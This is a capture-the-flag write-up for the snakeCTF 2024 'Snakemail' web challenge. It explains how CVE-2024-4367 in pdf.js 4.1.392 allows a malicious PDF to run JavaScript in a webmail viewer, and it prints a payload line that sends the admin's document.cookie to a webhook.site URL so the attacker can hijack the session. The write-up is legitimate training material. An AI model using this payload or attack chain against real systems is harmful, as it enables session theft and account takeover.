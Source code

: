 # Snakemail [_snakeCTF 2024 Finals_]

**Category**: Web

## Description

Apparently, the admin has a secret hidden in his emails. Can you find it?

(admin email is `admin@mail.snakectf.org`)

## Solution

### Step 1: Analysing the frontend

The initial step involves inspecting how the frontend works. Users can attach files to an email. The allowed file types are: PNG, JPEG, GIF, WEBP, PDF, DOC, DOCX, XLS, XLSX. When a PDF file is viewed in an email, the page that renders the PDF preview can be identified as `/pdf?email=...&id=...`.

By examining the Webpack chunk files, the library responsible for rendering the PDF files, `pdfjs`, is identified. Investigating the library's source code reveals a variable, `apiVersion`, which stores the version number of the library. Searching for this variable in the chunk files uncovers the library version, `4.1.392`.

### Step 2: Exploiting the PDF viewer

Searching online for the library's version number leads to the discovery of a [security advisory](https://nvd.nist.gov/vuln/detail/CVE-2024-4367) describing a vulnerability in the library. This vulnerability enables an attacker to execute arbitrary JavaScript code within the PDF viewer's context. A [proof of concept](https://github.com/LOURC0D3/CVE-2024-4367-PoC) demonstrates how to exploit this issue.

A malicious PDF file can be crafted to exploit this vulnerability and sent to the admin's email address to steal the cookies. An example payload is provided below:

```javascript
fetch('https://webhook.site/your-uuid?cookie=' + btoa(document.cookie));
```

When the admin opens the PDF, the cookies are exfiltrated to the specified webhook.

### Step 3: Logging in as the admin

After obtaining the admin's cookies, they can be used to log in as the admin. The secret hidden in the admin’s emails can then be accessed.